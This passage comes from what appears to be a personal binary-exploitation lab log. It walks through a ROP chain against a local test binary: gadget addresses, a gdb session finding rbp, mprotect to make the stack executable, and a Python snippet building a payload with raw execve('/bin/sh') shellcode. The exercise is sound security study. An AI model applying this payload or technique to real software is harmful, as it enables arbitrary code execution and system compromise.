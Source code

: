 Great! We can use this one to `pop` both `rdx` and `rsi`.

What we need to do now is write the assembly code. Alternatively, you
can look for shellcodes online (there are a bunch). I am going with
this shell [here](https://www.voidsecurity.in/2013/08/stdin-reopen-execve-binsh-shellcode-for.html),
which takes care of closing and reopening `stdin`
(sometimes it doesn't work without doing so).

All that is left is to find the address the shellcode will be located. We
can calculate it by getting the address of `rbp` at `password_is_correct`:

```
(gdb) break password_is_correct 
Breakpoint 1 at 0x797
(gdb) run
Starting program: /mnt/felipe/uff/inmetro/hacking_log/binary_exploitation/rop/second/rip_read 

Breakpoint 1, 0x0000555555554797 in password_is_correct ()
(gdb) p $rbp
$1 = (void *) 0x7fffffffe070
(gdb) 
```

add 8 (the size of the address `rbp` is pointing to) to `rbp` and
then add the size of the rest of the payload until you reach the shellcode.

### Putting It All Together

At the end our payload should look somewhat like this:

```
shellcode + some 'A's + 'BBBBBBBB' + pop rdi + stack starting address + pop rdx; pop rsi + PROT_WRITE | PROT_READ | PROT_EXEC (7) + stack memory region size + mprotect + shellcode address
```

The entire shellcode is contained inside the buffer, and we
add a bunch o 'A's in order to fill the rest of it.

In `second_read.py` you can see a code snippet that creates
the payload:

```
mprotect = struct.pack("Q", 0x7ffff7b1e710)
pop_rdi = struct.pack("Q", libc + 0x1729fd)
pop_rdx_rsi = struct.pack("Q", libc + 0xf54f9)
stack_address = struct.pack("Q", 0x7ffffffde000)
stack_size = struct.pack("Q", 0x21000)
permissions = struct.pack("Q", 0x7)
shellcode_address = struct.pack("Q", rbp - 0x80)

shellcode = b'\x48\x31\xc0\x50\x5f\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x50\x57\x54\x5e\x48\x99\xb0\x3b\x0f\x05'

payload = shellcode
payload += b'A' * ( 0x80 - len(shellcode) )
payload += b'BBBBBBBB'
payload += pop_rdi
payload += stack_address
payload += pop_rdx_rsi
payload += permissions
payload += stack_size
payload += mprotect
payload += shellcode_address
```

